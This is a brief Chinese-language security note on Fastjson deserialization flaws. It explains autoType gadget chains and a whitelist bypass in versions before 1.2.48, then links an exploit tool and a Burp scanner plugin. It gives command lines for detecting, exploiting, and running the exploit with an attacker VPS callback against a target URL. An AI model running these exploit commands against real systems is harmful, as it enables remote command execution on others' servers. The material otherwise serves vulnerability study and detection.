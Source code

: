 ```yaml
---
title: Fastjson
---
```


## Fastjson反序列化

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中

Fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链

Fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令

[Fastjson反序列化漏洞的检测和利用](https://mp.weixin.qq.com/s?__biz=MzIyNzY1MzUxMQ==&mid=100000244&idx=1&sn=801c947da8f74a4bda5039994951f040&chksm=685ca31c5f2b2a0a414e2848cc7f6e5a6778bbd309fc8d46bb4f4c7769d9f43ae06e0bae4959#rd)

**Fastjson 反序列化漏洞快速检测和利用工具**

https://github.com/21superman/fastjson_exploit

```bash
检测： java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -u 目标url

利用： java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -e -u 目标url

vps环境: java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -e -H vps公网ip -u 目标url
```

一个简单的Fastjson反序列化检测burp插件

https://github.com/Maskhe/FastjsonScan